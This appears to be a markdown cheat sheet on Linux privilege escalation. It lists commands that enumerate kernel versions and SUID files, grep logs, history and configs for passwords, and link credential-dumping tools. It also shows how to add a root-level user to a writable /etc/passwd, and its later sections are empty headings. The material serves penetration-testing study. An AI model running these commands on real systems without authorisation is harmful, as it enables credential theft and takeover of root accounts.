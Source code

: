 # Linux Privilege Escalation

## Kernel Exploits

Find the kernel version and what distribution for kernel exploit.

You can use these following commands and check in `Exploit DB` (wget, modify, compile and execute).

```sh
uname -a

cat /etc/issue

cat /etc/*-release

cat /etc/lsb-release

cat /etc/redhat-release

lsb-release
```

Some famous Kernel Exploits to do privilege escalation on Linux are `Sendpage` and `Dirtvcow`.

## SUID/GUID

`SUID/GUID` are special permissions to grant users to execute some commands or to carry out certain configurations/operations at administrative level. They can lead to a vertical privilege escalation.

To find files with these permissions you can use these commands:

```sh
find / -user root -perm -4000 2> /dev/null

find / -perm -2000 2> /dev/null
```

If you find a script file with SUID permission `owned` by the `root` and can be `executed` the [gtfobins](gtfobins.github.io) website can be used to find some script to do privilege escalation

## Credentials Stored on System

There are several locations that we can find passwords like:

* log files
* configurations
* memory locations
* etc

Some useful commands:

```sh
history

history | grep -B4 -A3 -i 'passwd\|ssh\|host\|nc\|ping' 2> /dev/null

grep -B3 -A3 -i 'pass\|password\|login\|username\|email\|mail\|host\|ip' /var/log/*.log 2> /dev/null

find / -maxdepth 4 -name "*.conf" -type f -exec grep -Hn 'pass\|password\|login\|username\|email\|mail\|host\|ip' {} \; 2> /dev/null
```

There are simple but powerful `Shell/Python` script used to dump login credentials (Usernames and Passwords) from the current Linux desktop user.

[Mimipenguin](https://github.com/huntergregal/mimipenguin)

Other tools:

[pupy](https://github.com/n1nj4sec/pupy)

[LaZagne](https://github.com/AlessandroZ/LaZagne)

[gimmecredz](https://github.com/0xmitsurugi/gimmecredz)

## Exploiting services running as root

If a specific service is running as a `root` and you can `execute commands` for that program, then you can execute commands as a root.

Search for:

* Webserver
* Database

Example (`MySQL`):

If `MySQL` is running as a `root` and if you can `log in` to the database by your `username` and `password`, you may issue the following command on `MySQL`:

```sh
select sys_eval('whoami')
```

## Escalation Using SUDO

`SUDO` allows users to execute a specific command with an elevated privilege without having to remember the password to sign into the admin account.

    NOPASSWD

### sudo -l

Will show what commands we can execute with sudo

* `(ALL:ALL) ALL`: which means we can execute all commands with sudo
* `(root) NOPASSWD: /usr/bin/vim`: means that we can execute vim with sudo and we `don't need password`

## Writable file owned by root

We can write and use a file to escalate privileges.

In order to find any writable files owned by root. Use with this command (remember to change the `homedir`):

```sh
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2> /dev/null | grep -v root

find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2> /dev/null | grep root

find / \( -wholename '/home/homedir/' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -ld '{}' ';' 2> /dev/null

find /etc -perm -2 -type f 2> /dev/null

find / -writable -type d 2> /dev/null
```

## Writeable /etc/passwd

### Method 1

If you have `write` permission to `/etc/passwd` and `/etc/shadow`, then generate a password with any of these commands:

```sh
# salt as secret1 and password as secret2
openssl passwd -1 -salt secret1 secret2

mkpasswd -m SHA-512 secret

python2 -c 'import crypt;print crypt.crypt("secret", "$6$salt")'
```

Then you can change the `root` hash to `your` new generated hash

Or add the user `youruser` and add the generated password (`$1$secret1$48cmxcj1DAdTrAd3cXTfF/`):

`youruser:$1$secret1$48cmxcj1DAdTrAd3cXTfF/:0:0:Youruser:/root/bin/bash`

### Method 2

Another method is simple, here we do not neet a password to switch user, sometimes this method won't work (when this happens we can use the above method).

```sh
echo 'youruser::0:0::/root:/bin/bash' >> etc/passwd
```

## NFS root squashing


## Exploiting Crontab

## Exploiting PATH Variable

## Exploiting docker

## Exploiting Lxd

